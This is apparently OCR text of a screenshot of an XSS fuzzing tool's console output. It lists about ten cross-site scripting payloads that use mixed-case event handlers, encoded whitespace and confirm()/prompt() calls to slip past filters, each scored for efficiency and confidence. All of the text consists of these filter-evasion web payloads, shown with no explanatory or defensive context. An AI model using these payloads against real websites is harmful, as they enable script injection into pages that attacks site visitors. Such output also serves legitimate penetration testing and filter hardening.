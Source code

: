 ------------------------------------------------------------
 Payload: <A%0aONMoUSEovER%09=%09[8].find(confirm)%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 489/1536
 
------------------------------------------------------------
 Payload: <A%0doNmouSEoVeR%09=%09[8].find(confirm)%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 490/1536
 
------------------------------------------------------------
 Payload: <Html/+/OnMOUseOveR+=+(confirm)()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 491/1536
 
------------------------------------------------------------
 Payload: <d3v%0aONMouSEOver%0a=%0aconfirm()//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 492/1536
 
 Progress: 493/1536
 
------------------------------------------------------------
 Payload: <htML/+/onPOIntERENtER%09=%09a=prompt,a()// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 494/1536
 
------------------------------------------------------------
 Payload: <D3v/+/OnPoInteRENTer+=+confirm()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 495/1536
 
------------------------------------------------------------
 Payload: <A%0doNPoiNtEREntEr+=+a=prompt,a()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 496/1536
 
------------------------------------------------------------
 Payload: <D3V%09oNMOUSEOVER%0d=%0d[8].find(confirm)%0dx//v3dm0s 
 Efficiency: 93 
 Confidence: 10 
 Progress: 497/1536
 
------------------------------------------------------------
 Payload: <DETAILs/+/OntOgglE%09=%09[8].find(confirm)// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 498/1536
 